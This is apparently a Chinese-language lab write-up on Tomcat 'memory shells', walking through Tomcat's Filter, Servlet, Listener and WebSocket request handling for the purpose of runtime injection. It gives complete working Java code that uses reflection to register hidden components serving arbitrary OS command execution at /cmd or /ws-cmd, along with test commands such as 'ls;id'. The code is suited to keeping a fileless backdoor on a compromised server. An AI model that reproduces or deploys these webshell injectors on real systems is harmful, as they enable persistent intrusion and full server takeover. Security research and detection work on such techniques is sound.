



## TL;DR

之前把这四种内存马拆开写了，回头翻的时候一直在几个文件之间跳，干脆合到一篇里。这里主要看 Tomcat 收到请求以后到底从哪里取组件，以及我们运行时往哪些对象里塞东西。



这几个 demo 统一使用 Spring Boot `2.7.18`、Java 8 和内置 Tomcat 9，代码还是 `javax.servlet.*` / `javax.websocket.*` 这套。Tomcat 10 开始迁到 `jakarta.*`，思路不变，但是类名、方法签名和反射字段都得跟着版本调整。

四个项目共用的依赖如下，WebSocket 那一节再额外加 `spring-boot-starter-websocket`。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.7.18</version>
        <relativePath/>
    </parent>

    <groupId>lab.memshell</groupId>
    <artifactId>memshell-lab</artifactId>
    <version>0.0.1-SNAPSHOT</version>

    <properties>
        <java.version>1.8</java.version>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>
</project>
```

demo 里的 `/install` 是我手动留出来的注册入口。真实场景中，这个入口会被反序列化、表达式执行、JNDI、字节码加载之类的一次性代码执行点替代。这里先不管洞是怎么来的，只看代码已经能在目标 JVM 里跑以后，怎么把一次执行变成后续请求还能触发的对象。

Filter、Servlet 和 Listener 都会用到 `StandardContext`。业务代码一般只能拿到 `ServletContext`，在这套版本里可以沿着下面这条链拆门面：

```text
ServletContext
  ↓
ApplicationContextFacade
  ↓ context
ApplicationContext
  ↓ context
StandardContext
```

对应代码如下：

```java
private static StandardContext getStandardContext(ServletContext servletContext) throws Exception {
    Object current = servletContext;

    if (current instanceof ApplicationContextFacade) {
        current = readField(current, "context");
    }
    if (current instanceof ApplicationContext) {
        current = readField(current, "context");
    }
    if (current instanceof StandardContext) {
        return (StandardContext) current;
    }

    throw new IllegalStateException(
            "Unsupported ServletContext implementation: " + servletContext.getClass().getName()
    );
}

private static Object readField(Object target, String name) throws Exception {
    Class<?> type = target.getClass();
    while (type != null) {
        try {
            Field field = type.getDeclaredField(name);
            field.setAccessible(true);
            return field.get(target);
        } catch (NoSuchFieldException ignored) {
            type = type.getSuperclass();
        }
    }
    throw new NoSuchFieldException(target.getClass().getName() + "." + name);
}
```

四个 demo 的命令执行部分也一样，后面不重复贴了：

```java
private static String runCommand(String command) throws Exception {
    if (command == null || command.trim().isEmpty()) {
        return "missing parameter: cmd";
    }

    boolean windows = System.getProperty("os.name", "").toLowerCase().contains("win");
    ProcessBuilder builder = windows
            ? new ProcessBuilder(Arrays.asList("cmd.exe", "/c", command))
            : new ProcessBuilder(Arrays.asList("/bin/sh", "-c", command));
    builder.redirectErrorStream(true);

    Process process = builder.start();
    ByteArrayOutputStream buffer = new ByteArrayOutputStream();
    try (InputStream input = process.getInputStream()) {
        byte[] chunk = new byte[4096];
        int n;
        while ((n = input.read(chunk)) != -1) {
            buffer.write(chunk, 0, n);
        }
    }

    boolean finished = process.waitFor(5, TimeUnit.SECONDS);
    if (!finished) {
        process.destroyForcibly();
        return "command timeout after 5 seconds";
    }

    String output = new String(buffer.toByteArray(), Charset.defaultCharset());
    return output.isEmpty() ? "exit=" + process.exitValue() : output;
}
```

## Filter 型

先看 Filter，因为它把 Tomcat 组装请求链时用到的几类对象展示得最清楚。

普通 Filter 夹在客户端请求和目标 Servlet 之间。调用 `chain.doFilter()`，请求继续往后走；不调用，请求就停在当前 Filter。鉴权、日志、编码、CORS 基本都在这里做。

```java
public class DemoFilter implements Filter {
    @Override
    public void doFilter(ServletRequest request,
                         ServletResponse response,
                         FilterChain chain)
            throws IOException, ServletException {
        System.out.println("before filter");
        chain.doFilter(request, response);
        System.out.println("after filter");
    }
}
```

正常注册可以走 `web.xml`、`@WebFilter` 或 `ServletContext#addFilter`。不管入口怎么写，Tomcat 启动后都会把定义、映射和运行时对象放进当前 Web 应用的 `StandardContext`。

```xml
<filter>
    <filter-name>demoFilter</filter-name>
    <filter-class>com.example.DemoFilter</filter-class>
</filter>

<filter-mapping>
    <filter-name>demoFilter</filter-name>
    <url-pattern>/*</url-pattern>
</filter-mapping>
```

规范 API 也可以动态注册：

```java
FilterRegistration.Dynamic registration =
        servletContext.addFilter("demoFilter", DemoFilter.class);
registration.addMappingForUrlPatterns(
        EnumSet.of(DispatcherType.REQUEST), false, "/*"
);
```

但是这个 API 有时机限制。它一般应该出现在 `ServletContainerInitializer#onStartup`、`ServletContextListener#contextInitialized` 或 Spring Boot 初始化 Servlet 组件的阶段。应用已经启动完，再从普通 Controller 里调用，大概率会直接抛出：

```text
IllegalStateException: Filters cannot be added to context ... as the context has been initialised
```

所以运行期注册不会老老实实走规范 API，而是直接改 Tomcat 已经建好的内部结构。

一次普通请求的主干大概是：

```text
CoyoteAdapter#service
  ↓
StandardEngineValve#invoke
  ↓
StandardHostValve#invoke
  ↓
StandardContextValve#invoke
  ↓
StandardWrapperValve#invoke
  ↓
ApplicationFilterFactory#createFilterChain
  ↓
ApplicationFilterChain#internalDoFilter
  ↓
Filter#doFilter
  ↓
Servlet#service
```

`ApplicationFilterFactory#createFilterChain` 负责从当前 `StandardContext` 里挑出与请求匹配的 Filter。正在吃饭的代码就是下面这段：

```java
StandardContext context = (StandardContext) wrapper.getParent();
FilterMap[] filterMaps = context.findFilterMaps();

for (FilterMap filterMap : filterMaps) {
    if (!matchDispatcher(filterMap, dispatcher)) {
        continue;
    }
    if (!matchFiltersURL(filterMap, requestPath)) {
        continue;
    }

    ApplicationFilterConfig filterConfig =
            (ApplicationFilterConfig) context.findFilterConfig(
                    filterMap.getFilterName()
            );
    if (filterConfig == null) {
        continue;
    }
    filterChain.addFilter(filterConfig);
}
```

这里已经把注册需要的东西写脸上了：

- `FilterDef` 描述 Filter 的名字、类和实例；
- `FilterMap` 描述这个名字匹配哪些 URL 或 Servlet；
- `ApplicationFilterConfig` 是 Tomcat 真正拿来初始化、缓存并执行 Filter 的运行时配置；
- `filterConfigs` 保存 `filterName -> ApplicationFilterConfig` 的对应关系。

只加 `FilterMap` 不够。Tomcat 匹配到名字以后，如果 `findFilterConfig()` 得到 `null`，会直接跳过它。

链组装好以后，`ApplicationFilterChain#internalDoFilter` 再按顺序调用：

```java
if (pos < n) {
    ApplicationFilterConfig filterConfig = filters[pos++];
    Filter filter = filterConfig.getFilter();
    filter.doFilter(request, response, this);
    return;
}

servlet.service(request, response);
```

所以 Filter 型的注册动作就剩三下：

```text
FilterDef
  -> StandardContext#addFilterDef

FilterMap
  -> StandardContext#addFilterMapBefore

ApplicationFilterConfig
  -> StandardContext#filterConfigs.put
```

demo 的安装代码如下：

```java
private static final String FILTER_NAME = "labCmdFilter";
private static final String URL_PATTERN_EXACT = "/cmd";

@GetMapping("/install")
public String install() throws Exception {
    StandardContext standardContext = getStandardContext(servletContext);

    if (standardContext.findFilterDef(FILTER_NAME) != null) {
        return "already installed: /cmd?cmd=ls%3Bid";
    }

    FilterDef filterDef = new FilterDef();
    filterDef.setFilterName(FILTER_NAME);
    filterDef.setFilterClass(CmdFilter.class.getName());
    filterDef.setFilter(new CmdFilter());
    standardContext.addFilterDef(filterDef);

    FilterMap filterMap = new FilterMap();
    filterMap.setFilterName(FILTER_NAME);
    filterMap.addURLPattern(URL_PATTERN_EXACT);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    standardContext.addFilterMapBefore(filterMap);

    ApplicationFilterConfig filterConfig =
            newApplicationFilterConfig(standardContext, filterDef);
    getFilterConfigs(standardContext).put(FILTER_NAME, filterConfig);

    return "installed: /cmd?cmd=ls%3Bid";
}

@SuppressWarnings("unchecked")
private static Map<String, ApplicationFilterConfig> getFilterConfigs(
        StandardContext standardContext
) throws Exception {
    return (Map<String, ApplicationFilterConfig>)
            readField(standardContext, "filterConfigs");
}

private static ApplicationFilterConfig newApplicationFilterConfig(
        StandardContext standardContext,
        FilterDef filterDef
) throws Exception {
    Constructor<ApplicationFilterConfig> constructor =
            ApplicationFilterConfig.class.getDeclaredConstructor(
                    org.apache.catalina.Context.class,
                    FilterDef.class
            );
    constructor.setAccessible(true);
    return constructor.newInstance(standardContext, filterDef);
}

public static class CmdFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) {
        System.out.println("[filter-lab] CmdFilter init");
    }

    @Override
    public void doFilter(ServletRequest request,
                         ServletResponse response,
                         FilterChain chain)
            throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) request;
        HttpServletResponse resp = (HttpServletResponse) response;
        String cmd = req.getParameter("cmd");

        resp.setContentType("text/plain;charset=UTF-8");
        if (cmd == null) {
            resp.getWriter().println(
                    "Filter cmdShell is alive. Try ?cmd=ls%3Bid"
            );
            return;
        }

        try {
            resp.getWriter().print(runCommand(cmd));
        } catch (Exception e) {
            resp.setStatus(500);
            e.printStackTrace(resp.getWriter());
        }
    }

    @Override
    public void destroy() {
        System.out.println("[filter-lab] CmdFilter destroy");
    }
}
```

这里用的是精确路径 `/cmd`，并且 `doFilter()` 没有再调用 `chain.doFilter()`，所以命中后请求就在 Filter 里结束，不会继续进入 `DispatcherServlet`。

执行时的链就很短了：

```text
请求 /cmd?cmd=ls%3Bid
  ↓
ApplicationFilterFactory#createFilterChain
  ↓ 匹配 FilterMap，并按名字取 ApplicationFilterConfig
ApplicationFilterChain#internalDoFilter
  ↓
CmdFilter#doFilter
  ↓
runCommand
```

另一种做法是加完 `FilterDef` 和 `FilterMap` 后调用 `standardContext.filterStart()`，让 Tomcat 按启动流程重建 Filter 配置。不过它可能重新初始化已有 Filter，动静比较大。为了看清楚对象关系，这里直接反射构造 `ApplicationFilterConfig`。

## Servlet 型

Servlet 型比 Filter 型直观一点：Filter 是插进过滤器链，Servlet 则是直接把一个新 URL 映射到一个新 `Servlet`。

```java
public class HelloServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req,
                         HttpServletResponse resp) throws IOException {
        resp.getWriter().println("hello servlet");
    }
}
```

Tomcat 里，一个 Servlet 不会裸着放进 `StandardContext`，而是包在 `Wrapper` 里，常见实现就是 `StandardWrapper`。`web.xml` 里的定义和 mapping 最后也会变成这两类东西：

```xml
<servlet>
    <servlet-name>helloServlet</servlet-name>
    <servlet-class>com.example.HelloServlet</servlet-class>
    <load-on-startup>1</load-on-startup>
</servlet>

<servlet-mapping>
    <servlet-name>helloServlet</servlet-name>
    <url-pattern>/hello</url-pattern>
</servlet-mapping>
```

- 一个 `Wrapper`，名字叫 `helloServlet`，里面记录 Servlet 类或实例；
- 一个 mapping，把 `/hello` 指向 `helloServlet` 这个 Wrapper 名字。

规范 API 的写法也很简单：

```java
ServletRegistration.Dynamic registration = servletContext.addServlet(
        "helloServlet",
        new HelloServlet()
);
registration.addMapping("/hello");
registration.setLoadOnStartup(1);
```

它和 Filter 一样，通常只能在 Web 应用初始化阶段调用。应用已经启动完再注册，可能遇到：

```text
IllegalStateException: Servlets cannot be added to context ... as the context has been initialised
```

请求到 Servlet 的主干如下：

```text
HTTP 请求
  ↓
Http11Processor#service
  ↓
CoyoteAdapter#service
  ↓
Mapper#map
  ↓ 找到 Context 和 Wrapper
StandardEngineValve#invoke
  ↓
StandardHostValve#invoke
  ↓
StandardContextValve#invoke
  ↓
StandardWrapperValve#invoke
  ↓ 拿到 Wrapper 对应的 Servlet
ApplicationFilterFactory#createFilterChain
  ↓ 先执行匹配到的 Filter
Servlet#service
```

`ApplicationFilterChain` 这个名字很容易让人只想到 Filter，其实 Filter 全部执行完以后，还是它来调用目标 Servlet：

```java
servlet.service(request, response);
```

这样子一看，Servlet 型需要的东西就很清楚了：准备一个 Servlet，创建 Wrapper，把 Wrapper 挂到 `StandardContext`，最后补一条 URL mapping。

```java
private static final String SERVLET_NAME = "labCmdServlet";
private static final String URL_PATTERN = "/cmd";

@GetMapping("/install")
public String install() throws Exception {
    StandardContext standardContext = getStandardContext(servletContext);

    if (standardContext.findChild(SERVLET_NAME) != null) {
        return "already installed: /cmd?cmd=ls%3Bid";
    }

    HttpServlet servlet = new CmdServlet();

    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setName(SERVLET_NAME);
    wrapper.setServletClass(servlet.getClass().getName());
    wrapper.setServlet(servlet);
    wrapper.setLoadOnStartup(1);

    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded(URL_PATTERN, SERVLET_NAME);

    return "installed: /cmd?cmd=ls%3Bid";
}

public static class CmdServlet extends HttpServlet {
    @Override
    public void init() throws ServletException {
        System.out.println("[servlet-lab] CmdServlet init");
    }

    @Override
    protected void service(HttpServletRequest request,
                           HttpServletResponse response) throws IOException {
        String cmd = request.getParameter("cmd");
        response.setContentType("text/plain;charset=UTF-8");

        if (cmd == null) {
            response.getWriter().println(
                    "Servlet cmdShell is alive. Try ?cmd=ls%3Bid"
            );
            return;
        }

        try {
            response.getWriter().print(runCommand(cmd));
        } catch (Exception e) {
            response.setStatus(500);
            e.printStackTrace(response.getWriter());
        }
    }
}
```

对应关系如下：

```text
CmdServlet 实例
  ↓ setServlet
Wrapper / StandardWrapper
  ↓ addChild
StandardContext.children

/cmd
  ↓ addServletMappingDecoded
servletMappings
  ↓
labCmdServlet
```

只 `new CmdServlet()` 没用，请求根本找不到它；只加 Wrapper 不加 mapping 也没用，`Mapper` 不知道 `/cmd` 应该落到哪个 Wrapper。两部分都在，下一次请求才会经过 `Mapper#map`、`StandardWrapperValve#invoke`，最后进入 `CmdServlet#service`。

## Listener 型

Listener 更像挂在容器事件上的回调。请求来了、请求结束了、Session 创建了、Web 应用启动了，Tomcat 在这些节点把事件抛给 Listener。它通常不直接处理路由，而是在事件发生时被动执行。

常见类型大概是这些：

| Listener | 触发点 | 运行期注册后的用途 |
|---|---|---|
| `ServletContextListener` | Web 应用启动、关闭 | 启动事件已经过去，通常不合适 |
| `ServletRequestListener` | 每次请求开始、结束 | 最直接，demo 使用这一种 |
| `HttpSessionListener` | Session 创建、销毁 | 需要请求真的创建或销毁 Session |
| Attribute 类 Listener | 属性增删改 | 依赖额外的属性操作 |

`ServletRequestListener` 的正常写法如下：

```java
public class DemoRequestListener implements ServletRequestListener {
    @Override
    public void requestInitialized(ServletRequestEvent event) {
        ServletRequest request = event.getServletRequest();
        request.setAttribute("listener.hit", true);
    }

    @Override
    public void requestDestroyed(ServletRequestEvent event) {
    }
}
```

`web.xml`、`@WebListener` 和 `ServletContext#addListener` 都能注册它。但是运行中从普通请求里调用 `servletContext.addListener(...)`，还是会撞上初始化时机限制，所以这里直接拿 `StandardContext`。

Listener 在 `StandardContext` 里主要分两组：

```text
addApplicationEventListener
  ServletRequestListener
  ServletRequestAttributeListener
  ServletContextAttributeListener
  HttpSessionAttributeListener
  HttpSessionIdListener

addApplicationLifecycleListener
  ServletContextListener
  HttpSessionListener
```

请求事件真正触发的位置在 `StandardContext#fireRequestInitEvent` 和 `StandardContext#fireRequestDestroyEvent`。初始化事件的代码如下：

```java
public boolean fireRequestInitEvent(ServletRequest request) {
    Object[] instances = getApplicationEventListeners();

    if (instances != null && instances.length > 0) {
        ServletRequestEvent event =
                new ServletRequestEvent(getServletContext(), request);

        for (Object instance : instances) {
            if (instance == null) {
                continue;
            }
            if (!(instance instanceof ServletRequestListener)) {
                continue;
            }

            ServletRequestListener listener =
                    (ServletRequestListener) instance;
            try {
                listener.requestInitialized(event);
            } catch (Throwable t) {
                ExceptionUtils.handleThrowable(t);
                request.setAttribute(
                        RequestDispatcher.ERROR_EXCEPTION,
                        t
                );
                return false;
            }
        }
    }
    return true;
}
```

只要对象进了 `applicationEventListeners`，每次请求进来，Tomcat 遍历到它时就会调用 `requestInitialized()`。所以注册动作反而是四种里最短的：

```java
@GetMapping("/install")
public String install() throws Exception {
    StandardContext standardContext = getStandardContext(servletContext);
    ServletRequestListener listenerToInstall = new CmdRequestListener();

    for (Object listener : standardContext.getApplicationEventListeners()) {
        if (listener.getClass().equals(listenerToInstall.getClass())) {
            return "already installed: /cmd?cmd=ls%3Bid";
        }
    }

    standardContext.addApplicationEventListener(listenerToInstall);
    return "installed: /cmd?cmd=ls%3Bid";
}
```

不过 `ServletRequestEvent` 只给了 `ServletRequest` 和 `ServletContext`，没有直接给 `ServletResponse`。demo 里从 Tomcat 的 `RequestFacade` 往下拆，拿到内部 `Request` 关联的 `Response`：

```java
private static HttpServletResponse unwrapResponse(
        HttpServletRequest request
) throws Exception {
    Object current = request;

    if (current instanceof RequestFacade) {
        current = readField(current, "request");
    }
    if (current instanceof Request) {
        Response response = ((Request) current).getResponse();
        return response.getResponse();
    }

    throw new IllegalStateException(
            "Unsupported request implementation: "
                    + request.getClass().getName()
    );
}
```

Listener 本体如下。它会在所有请求上收到事件，所以自己检查 URI，只处理 `/cmd`。

```java
public static class CmdRequestListener implements ServletRequestListener {
    @Override
    public void requestInitialized(ServletRequestEvent event) {
        ServletRequest servletRequest = event.getServletRequest();
        if (!(servletRequest instanceof HttpServletRequest)) {
            return;
        }

        HttpServletRequest request =
                (HttpServletRequest) servletRequest;
        String cmd = request.getParameter("cmd");
        if (cmd == null || !request.getRequestURI().endsWith("/cmd")) {
            return;
        }

        try {
            byte[] body = runCommand(cmd).getBytes("UTF-8");
            HttpServletResponse response = unwrapResponse(request);
            response.setStatus(200);
            response.setCharacterEncoding("UTF-8");
            response.setContentType("text/plain;charset=UTF-8");
            response.setContentLength(body.length);
            response.getOutputStream().write(body);
            response.getOutputStream().flush();
            response.flushBuffer();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void requestDestroyed(ServletRequestEvent event) {
    }
}
```

执行链如下：

```text
请求进入 Tomcat
  ↓
StandardHostValve#invoke
  ↓
StandardContext#fireRequestInitEvent
  ↓ 遍历 applicationEventListeners
CmdRequestListener#requestInitialized
  ↓
runCommand
```

这里有个实际的坑：Listener 回调返回 `void`，不像 Filter 那样可以靠不调用 `chain.doFilter()` 截断请求。`requestInitialized()` 正常返回后，`StandardHostValve` 仍会继续调用当前 Context 的 Pipeline。demo 虽然把响应写完并 `flushBuffer()` 了，但后面的 Servlet、错误页或其他组件仍可能继续碰这个 response，所以 Listener 型的回显稳定性一般不如 Filter 和 Servlet，版本差异也更敏感。

`ServletContextListener` 运行中塞进去以后不会补发已经过去的启动事件，`HttpSessionListener` 又必须等 Session 创建或销毁才触发。这样看下来，直接做请求入口时，`ServletRequestListener` 确实最顺手。

## WebSocket Endpoint 型

Filter、Servlet、Listener 基本都围着 `StandardContext` 转，WebSocket Endpoint 不一样。它的入口虽然也是一次 HTTP 请求，但是握手成功以后，后面的数据帧不会继续进入普通 Servlet 的 `service()`，真正干活的是 HTTP Upgrade 后的 WebSocket 会话。

先补依赖：

```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-websocket</artifactId>
</dependency>
```

Java WebSocket 服务端常见有两种写法。一种是 `@ServerEndpoint` 注解 POJO：

```java
@ServerEndpoint("/chat")
public class ChatEndpoint {
    @OnOpen
    public void onOpen(Session session) {
        System.out.println("open: " + session.getId());
    }

    @OnMessage
    public String onMessage(String message) {
        return "echo: " + message;
    }
}
```

另一种是继承 `Endpoint`，它和动态注册更贴近：

```java
public class ChatEndpoint extends Endpoint {
    @Override
    public void onOpen(Session session, EndpointConfig config) {
        session.addMessageHandler(
                String.class,
                new MessageHandler.Whole<String>() {
                    @Override
                    public void onMessage(String message) {
                        try {
                            session.getBasicRemote().sendText(
                                    "echo: " + message
                            );
                        } catch (IOException e) {
                            throw new RuntimeException(e);
                        }
                    }
                }
        );
    }
}
```

Tomcat 的 `WsSci#onStartup()` 会在应用启动时初始化 `WsServerContainer`，再把它放进 `ServletContext` attribute。于是这里不用拆 `StandardContext`，直接按标准 key 取：

```java
ServerContainer container = (ServerContainer) servletContext.getAttribute(
        ServerContainer.class.getName()
);
```



不同版本的 key 如下：

| Tomcat | API 包名 | attribute key |
|---|---|---|
| 7.x - 9.x | `javax.websocket.*` | `javax.websocket.server.ServerContainer` |
| 10.x - 11.x | `jakarta.websocket.*` | `jakarta.websocket.server.ServerContainer` |

然后构造 `ServerEndpointConfig`，调用 `addEndpoint()`：

```java
private static final String PATH = "/ws-cmd";

@GetMapping("/install")
public String install() throws Exception {
    Object container = servletContext.getAttribute(
            "javax.websocket.server.ServerContainer"
    );
    if (!(container instanceof ServerContainer)) {
        return "ServerContainer not found. "
                + "Check spring-boot-starter-websocket dependency.";
    }

    ServerEndpointConfig config = ServerEndpointConfig.Builder
            .create(CmdEndpoint.class, PATH)
            .build();

    try {
        ((ServerContainer) container).addEndpoint(config);
        return "installed: ws://127.0.0.1:18184" + PATH;
    } catch (Exception e) {
        String message = e.getMessage();
        if (message != null && message.contains("multiple Endpoints")) {
            return "already installed or path conflict: "
                    + "ws://127.0.0.1:18184" + PATH;
        }
        throw e;
    }
}

public static class CmdEndpoint extends Endpoint {
    @Override
    public void onOpen(Session session, EndpointConfig config) {
        try {
            session.getBasicRemote().sendText(
                    "WebSocket cmdShell is alive. "
                            + "Send a command, for example: ls;id"
            );
        } catch (IOException ignored) {
        }

        session.addMessageHandler(new MessageHandler.Whole<String>() {
            @Override
            public void onMessage(String message) {
                try {
                    session.getBasicRemote().sendText(
                            runCommand(message)
                    );
                } catch (Exception e) {
                    try {
                        session.getBasicRemote().sendText(
                                "ERROR: " + e.getMessage()
                        );
                    } catch (IOException ignored) {
                    }
                }
            }
        });
    }
}
```

路径必须以 `/` 开头。如果应用部署在 `/demo` 这个 context-path 下，实际连接地址就是：

```text
ws://127.0.0.1:8080/demo/ws-cmd
```

测试时先装 Endpoint，再建立 WebSocket 连接，把命令当成文本消息发过去：

```sh
curl 'http://127.0.0.1:18184/install'
websocat ws://127.0.0.1:18184/ws-cmd
ls;id
```



`WsServerContainer#addEndpoint` 会把普通固定路径放进 `configExactMatchMap`，把带 `{}` 参数的模板路径放进 `configTemplateMatchMap`。核心逻辑如下：

```java
String path = sec.getPath();
UriTemplate uriTemplate = new UriTemplate(path);

if (uriTemplate.hasParameters()) {
    Integer key = Integer.valueOf(uriTemplate.getSegmentCount());
    ConcurrentSkipListMap<String, TemplatePathMatch> templateMatches =
            configTemplateMatchMap.get(key);
    if (templateMatches == null) {
        templateMatches = new ConcurrentSkipListMap<>();
        configTemplateMatchMap.putIfAbsent(key, templateMatches);
        templateMatches = configTemplateMatchMap.get(key);
    }
    templateMatches.putIfAbsent(
            uriTemplate.getNormalizedPath(),
            new TemplatePathMatch(sec, uriTemplate, fromAnnotatedPojo)
    );
} else {
    configExactMatchMap.put(
            path,
            new ExactPathMatch(sec, fromAnnotatedPojo)
    );
}

endpointsRegistered = true;
```

握手请求进来以后，Tomcat 自带的 `WsFilter` 会先判断它是不是 WebSocket Upgrade，再拿请求路径去 `findMapping()`：

```java
public void doFilter(ServletRequest request,
                     ServletResponse response,
                     FilterChain chain)
        throws IOException, ServletException {

    if (!sc.areEndpointsRegistered()
            || !UpgradeUtil.isWebSocketUpgradeRequest(request, response)) {
        chain.doFilter(request, response);
        return;
    }

    HttpServletRequest req = (HttpServletRequest) request;
    HttpServletResponse resp = (HttpServletResponse) response;

    String pathInfo = req.getPathInfo();
    String path = pathInfo == null
            ? req.getServletPath()
            : req.getServletPath() + pathInfo;

    WsMappingResult mappingResult = sc.findMapping(path);
    if (mappingResult == null) {
        chain.doFilter(request, response);
        return;
    }

    UpgradeUtil.doUpgrade(
            sc,
            req,
            resp,
            mappingResult.getConfig(),
            mappingResult.getPathParams()
    );
}
```

匹配成功后不再调用 `chain.doFilter()`，而是进入 `UpgradeUtil#doUpgrade`。连接建立时，`WsHttpUpgradeHandler#init` 创建 `WsSession` 和 `WsFrameServer`，最后调用我们 Endpoint 的 `onOpen()`：

```text
HTTP Upgrade /ws-cmd
  ↓
WsFilter#doFilter
  ↓
WsServerContainer#findMapping
  ↓
UpgradeUtil#doUpgrade
  ↓
WsHttpUpgradeHandler#init
  ↓
CmdEndpoint#onOpen
```

连接建立后，每条文本消息走的是另一条链：

```text
WebSocket 文本帧
  ↓
UpgradeProcessorInternal#dispatch
  ↓
WsHttpUpgradeHandler#upgradeDispatch
  ↓
WsFrameServer#onDataAvailable
  ↓
WsFrameBase#processDataText
  ↓
MessageHandler.Whole#onMessage
  ↓
runCommand
```

这也是 WebSocket Endpoint 型和前面三种最明显的区别：安装还是一次普通 HTTP 请求，但安装成功以后，通信不再是一问一答的普通 HTTP，而是一条升级后的长连接。

